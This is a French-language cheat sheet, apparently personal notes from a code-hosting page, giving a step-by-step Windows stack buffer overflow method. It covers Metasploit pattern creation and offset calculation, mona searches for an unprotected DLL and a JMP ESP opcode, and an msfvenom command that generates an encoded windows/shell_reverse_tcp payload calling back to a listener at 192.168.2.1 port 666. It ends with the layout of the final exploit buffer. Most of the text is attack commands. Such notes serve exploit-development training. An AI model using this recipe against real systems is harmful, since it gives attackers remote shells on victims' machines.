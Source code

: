 ## Reverse

- Création d'un pattern d'une longueur de 800
```bash
/opt/metasploit/tools/exploit/pattern_create.rb -l 800 # pour Arch
msf-pattern_create -l 3000 # pour Kali
```
- Envoie du pattern dans la section vulnérable
- Lire la valeur de EIP dans le débuggeur lorsque le programme à planté
- Calcul de l'offset
```bash
/opt/metasploit/tools/exploit/pattern_offset.rb -l 800 -q <value EIP> # pour Arch
msf-pattern_offset -l 3000 -q 39694438 # pour Kali
```
- Vérifier que l'offset est correcte en écrivant  `offset * "A" + 4 * "B"` dans la section. La valeur de l'EIP doit être `42424242`
- vérifier la place dispo pour la Payload, envoyant dans la section `offset * "A" + 4 * "B" + 80 * "C"`. Les "C" doivent être écrit dans la mémoire.
- chercher une DLL qui n'est pas sécurisé(Rebase, ASLR : False)
```
!mona modules
```
- vérifier la présence d'une instruction dans une DLL et liste les adresses de où se trouve l'instruction JMPESP (l'opcode de JMPESP est `\xff\xe4` ) 
```
!mona find -s "\xff\xe4" -m slmfc.dll
```
- Création d'un reverse shell
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.2.1  
LPORT=666 -f c -e x86/shikata_ga_nai -b "\x00\x0D\xFF"
```

 Paramètre | Valeur                    | Description            
 --------- | ------------------------- | ---------------------- 
 -p        | windows/shell_reverse_tcp | type de payload        
 LHOST     | 192.168.2.1               | adresse ip du listener 
 LPORT     | 666                       | port du listener       
 -f        | c                         | export au format C     
 -e        | x86/shikata_ga_nai        | encodeur               
 -b        | "\x00\x0D\xFF"            | liste des Badchar       

- Maintenant, créer l'exploit avec :
```
offset + Adresse de JMPESP(inversé) + nb * NoP + Shellcode
```
